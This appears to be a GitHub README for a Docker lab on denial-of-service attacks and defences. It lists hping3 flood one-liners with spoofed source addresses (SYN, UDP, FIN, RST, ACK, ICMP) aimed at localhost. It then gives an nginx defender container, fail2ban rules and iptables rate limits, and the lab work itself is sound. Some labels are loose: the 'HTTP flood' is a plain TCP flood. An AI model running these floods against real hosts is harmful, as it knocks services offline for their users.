

# Fuck the Hack :)

## Setup two docker containers:

### Attacker container - there you need to write scripts that will implement 6 attacks (UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death)

#### Download hping3

```bash
docker pull utkudarilmaz/hping3:latest
```

#### HTTP flood:

```bash
docker run utkudarilmaz/hping3:latest --rand-source --flood localhost -p 8080
```

#### TCP SYN flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -S -q -n --flood localhost -p 8080
```

#### UDP flood:

```bash
docker run utkudarilmaz/hping3:latest --rand-source --udp --flood localhost -p 8080
```

#### TCP FIN Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -F --flood localhost -p 8080
```

#### TCP RST Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -R --flood localhost -p 8080
```

#### PUSH and ACK Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -PA --flood localhost -p 8080
```

#### ICMP Flood

```bash
docker run utkudarilmaz/hping3:latest --rand-source -1 --flood localhost -p 8080
```

### Defender container - ubuntu & nginx with simple website.

```docker
FROM ubuntu:20.04

ENV DEBIAN_FRONTEND=noninteractive

RUN apt-get update && \
    apt-get install -y nginx && \
    rm -rf /var/lib/apt/lists/*

COPY ./html/index.html /var/www/html/index.html

COPY ./nginx.conf /etc/nginx/nginx.conf

COPY ./scripts/setup_iptables.sh /usr/local/bin/setup_iptables.sh
COPY ./scripts/setup_fail2ban.sh /usr/local/bin/setup_fail2ban.sh

EXPOSE 80

CMD ["nginx", "-g", "daemon off;"]

```



## Try to implement protection on Defender container.

### Setup Fail2Ban

```bash
#!/bin/bash

cat <<EOF > /etc/fail2ban/jail.local
[nginx-http-auth]
enabled  = true
filter   = nginx-http-auth
action   = iptables[name=HTTP, port=http, protocol=tcp]
logpath  = /var/log/nginx/error.log
maxretry = 3
bantime  = 600

[nginx-badbots]
enabled  = true
filter   = nginx-badbots
action   = iptables-multiport[name=BadBots, port="80,443", protocol=tcp]
logpath  = /var/log/nginx/access.log
maxretry = 5
bantime  = 3600
findtime = 600
EOF

cat <<EOF > /etc/fail2ban/filter.d/nginx-badbots.conf
[Definition]
failregex = ^<HOST> -.*GET.*HTTP.*(MJ12bot|AhrefsBot|SemrushBot|Baiduspider|YandexBot).*$
EOF

service fail2ban restart
```

### Setup IPTables

```bash
#!/bin/bash

# 1. Захист від SYN Flood атак (обмеження SYN пакетів)
iptables -A INPUT -p tcp --syn -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p tcp --syn -j DROP

# 2. Захист від UDP Flood атак (обмеження UDP пакетів)
iptables -A INPUT -p udp -m limit --limit 10/s -j ACCEPT
iptables -A INPUT -p udp -j DROP

# 3. Захист від ICMP Flood атак (обмеження ICMP пакетів)
iptables -A INPUT -p icmp -m limit --limit 1/s -j ACCEPT
iptables -A INPUT -p icmp -j DROP

# 4. Захист від Ping of Death (блокування великих ICMP пакетів)
iptables -A INPUT -p icmp --icmp-type echo-request -m length --length 65535 -j DROP

# 5. Блокування підозрілих або пошкоджених пакетів
iptables -A INPUT -m state --state INVALID -j DROP

# 6. Дозволяємо лише порти для веб-трафіку (HTTP, HTTPS) та SSH
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT
iptables -A INPUT -p tcp --dport 22 -j ACCEPT

# 7. Відхиляємо всі інші вхідні пакети
iptables -A INPUT -j DROP

# Збереження правил iptables
iptables-save > /etc/iptables/rules.v4
```